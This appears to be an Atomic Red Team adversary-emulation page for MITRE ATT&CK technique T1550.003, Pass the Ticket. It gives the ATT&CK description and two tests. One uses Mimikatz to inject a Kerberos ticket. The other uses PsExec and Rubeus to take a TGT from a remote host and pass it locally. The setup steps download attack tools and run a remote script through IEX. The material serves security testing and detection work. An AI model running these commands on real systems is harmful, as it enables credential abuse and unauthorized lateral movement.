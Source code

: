 # T1550.003 - Use Alternate Authentication Material: Pass the Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/003)
<blockquote>

Adversaries may “pass the ticket” using stolen Kerberos tickets to move laterally within an environment, bypassing normal system access controls. Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account's password. Kerberos authentication can be used as the first step to lateral movement to a remote system.

When preforming PtT, valid Kerberos tickets for [Valid Accounts](https://attack.mitre.org/techniques/T1078) are captured by [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). A user's service tickets or ticket granting ticket (TGT) may be obtained, depending on the level of access. A service ticket allows for access to a particular resource, whereas a TGT can be used to request service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges to access.(Citation: ADSecurity AD Kerberos Attacks)(Citation: GentilKiwi Pass the Ticket)

A [Silver Ticket](https://attack.mitre.org/techniques/T1558/002) can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).(Citation: ADSecurity AD Kerberos Attacks)

A [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) can be obtained for the domain using the Key Distribution Service account KRBTGT account NTLM hash, which enables generation of TGTs for any account in Active Directory.(Citation: Campbell 2014)

Adversaries may also create a valid Kerberos ticket using other user information, such as stolen password hashes or AES keys. For example, "overpassing the hash" involves using a NTLM password hash to authenticate as a user (i.e. [Pass the Hash](https://attack.mitre.org/techniques/T1550/002)) while also using the password hash to create a valid Kerberos ticket.(Citation: Stealthbits Overpass-the-Hash)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Kerberos Ticket Attack](#atomic-test-1---mimikatz-kerberos-ticket-attack)

- [Atomic Test #2 - Rubeus Kerberos Pass The Ticket](#atomic-test-2---rubeus-kerberos-pass-the-ticket)


<br/>

## Atomic Test #1 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows


**auto_generated_guid:** dbf38128-7ba7-4776-bedf-cc2eed432098





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ticket | Ticket file name usually format of 'id-username&#92;@domain.kirbi' (e.g. can be dumped by "sekurlsa::tickets /export" module) | string | |
| mimikatz_exe | Path of the Mimikatz binary | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;bin&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{mimikatz_exe}" "kerberos::ptt #{ticket}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - Rubeus Kerberos Pass The Ticket
Requesting a TGT on a remote system and retrieving it locally before requesting a service ticket with it. This is a Pass-The-Ticket attack because the TGT is obtained on the remote system, then used from a different machine (local).
PsExec is used to execute commands on the remote system, and the "C$" admin share is used to retrieve the TGT, so the current user must have admin rights remotely and other PsExec prerequisites must be met.

**Supported Platforms:** Windows


**auto_generated_guid:** a2fc4ec5-12c6-4fb4-b661-961f23f359cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target | Remote system to request the TGT from | string | localhost|
| user_name | username associated with the ticket (privileged account not required) | string | Administrator|
| password | password for user_name | string | Password|
| domain | domain | string | $Env:USERDOMAIN|
| rubeus_url | URL of Rubeus executable | url | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
& "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -accepteula \\#{target} -w c:\ -c "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" asktgt /user:#{user_name} /password:#{password} /domain:#{domain} /outfile:ticket.kirbi
Set-Location "PathToAtomicsFolder\..\ExternalPayloads"
Move-Item -Force "\\#{target}\c$\ticket.kirbi" ticket.kirbi
Write-Host "Successfully retrieved TGT from '#{target}', now requesting a TGS from local"
& "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" asktgs /service:cifs/#{target} /ticket:ticket.kirbi /ptt
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\ticket.kirbi"
& "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" purge
```




#### Dependencies:  Run with `powershell`!
##### Description: Rubeus must exist on disk at "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe"
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-Webrequest -Uri #{rubeus_url} -OutFile "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe"
```
##### Description: PsExec must exist on disk at "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe"
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PsTools" -Force
New-Item -ItemType Directory (Split-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe" "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -Force
```




<br/>

